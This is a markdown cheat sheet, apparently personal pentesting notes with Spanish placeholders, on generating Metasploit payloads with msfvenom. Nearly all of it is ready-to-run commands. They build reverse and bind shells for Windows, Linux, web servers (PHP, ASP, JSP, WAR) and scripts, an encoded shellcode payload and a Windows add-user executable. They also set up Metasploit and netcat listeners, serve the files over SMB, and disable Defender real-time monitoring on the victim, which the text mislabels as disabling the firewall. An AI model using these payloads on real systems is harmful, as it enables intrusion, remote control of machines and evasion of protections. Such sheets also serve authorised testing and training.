 # Msfvenom

Msfvenom is a Metasploit tool for creating custom payloads that can be executed on the victim machine.


To display available payloads:

```shell
msfvenom -l payloads 
```

## Types:
- Staged: Sends malicious code in multiple stages to avoid detection. Sometimes can't be used with msfvenom directly, but with Metasploit.

- Stageless: Sends the entire code at once. May be detected, but can be used with msfvenom.

To view options for a specific payload, use the `-p` option followed by `--list-options`:

```shell
msfvenom -p windows/adduser --list-options
```

Use the `-f` option to specify the output format:

```shell
msfvenom -p windows/adduser -f exe -o adduser.exe
```

Disable Windows Firewall on the victim machine with:

```shell
Set-MpPreference -disableRealtimeMonitoring $true
```

Share the file using "impacket-smbserver", sharing the current directory:

```shell
impacket-smbserver share ./
```
If connection fails, try forcing username and password:

```shell
impacket-smbserver share ./ -smb2support -username test -password test
```

Connect from Windows using the run dialog:

```shell 
\\<ip kali>\share
```



## Stageless reverse shell for Windows

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=8001 -f exe -o shellp8001.exe
```

Listen on Kali with netcat:

```shell
nc -lvnp 8001
```

## Additional examples

```shell
# Create a payload
msfvenom -p [payload] LHOST=[IPAtacante] LPORT=[PuertoEscucha]

# List payloads
msfvenom -l payloads

# List payload options
msfvenom -p [payload] --list-options
msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options

# Create an encoded payload
msfvenom -p [payload] -e [encoder] -f [FormatoSalida] -i [iteración]  > ArchivoResultante

# Create a payload using a template
msfvenom -p [payload]  -x [Plantilla] -f [FormatoSalida] > ArchivoResultante

# Listen for payloads in Metasploit:
msf6>use exploit/multi/handler
msf6>set payload windows/meterpreter/reverse_tcp
msf6>set lhost [IP]
msf6>set lport  [Puerto]
msf6> set ExitOnSession false
msf6>exploit -j

#  Windows payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f exe > shell.exe

msfvenom -p windows/meterpreter_reverse_http LHOST=[IPAtacante] LPORT=[PuertoEscucha] HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe

msfvenom -p windows/meterpreter/bind_tcp RHOST=[IPRemota] LPORT=[PuertoEscucha] -f exe > shell.exe

msfvenom -p windows/shell/reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f exe > shell.exe

msfvenom -p windows/shell_reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f exe > shell.exe



#  Linux payloads
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f elf > shell.elf

msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=[IPRemota] LPORT=[PuertoEscucha] -f elf > shell.elf

msfvenom -p linux/x64/shell_bind_tcp RHOST=[IPRemota] LPORT=[PuertoEscucha] -f elf > shell.elf

msfvenom -p linux/x64/shell_reverse_tcp RHOST=[IPRemota] LPORT=[PuertoEscucha] -f elf > shell.elf


# Add a user in windows with msfvenom:
msfvenom -p windows/adduser USER=[usuario] PASS=[password] -f exe > adduser.exe

#  Generate Web Payloads

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f raw > shell.php
cat shell.php | pbcopy && echo shell.php && pbpaste >> shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f asp > shell.asp

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f raw > shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f war > shell.war


#  Script format payloads
# Python
msfvenom -p cmd/unix/reverse_python LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f raw > shell.py

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f raw > shell.sh

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f raw > shell.pl

# Create an encoded payload removing bad characters:
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```